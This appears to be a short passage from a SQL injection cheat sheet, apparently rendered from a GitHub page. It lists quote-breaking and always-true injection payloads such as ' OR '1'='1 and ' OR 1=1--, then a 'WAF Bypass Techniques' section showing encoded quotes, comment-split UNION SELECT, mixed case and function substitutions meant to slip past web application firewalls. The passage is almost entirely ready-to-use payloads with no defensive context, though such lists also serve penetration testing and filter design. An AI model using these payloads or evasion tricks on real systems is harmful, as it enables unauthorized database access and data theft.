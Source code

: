 ### Custom Payload Lists
```sql
-- Quick test payloads
'
"
`
')
")
`)
'))
"))
`))

-- Advanced test payloads
' OR '1'='1
' OR '1'='1'--
' OR '1'='1'/*
' OR 1=1--
' OR 1=1#
' OR 1=1/*
") OR "1"="1
") OR "1"="1"--
") OR "1"="1"/*
') OR ('1'='1
') OR ('1'='1'--
') OR ('1'='1'/*
```

## 🔍 Detection and Evasion

### WAF Bypass Techniques
```sql
-- Encoding bypass
%27 UNION SELECT NULL--
CHAR(39) UNION SELECT NULL--
0x27 UNION SELECT NULL--

-- Comment insertion
UN/**/ION SE/**/LECT NULL--
UN/*comment*/ION SE/*comment*/LECT NULL--

-- Case manipulation
uNiOn sElEcT nUlL--
UnIoN sElEcT nUlL--

-- Function alternatives
SUBSTRING -> MID, LEFT, RIGHT
ASCII -> ORD
CONCAT -> CONCAT_WS
```
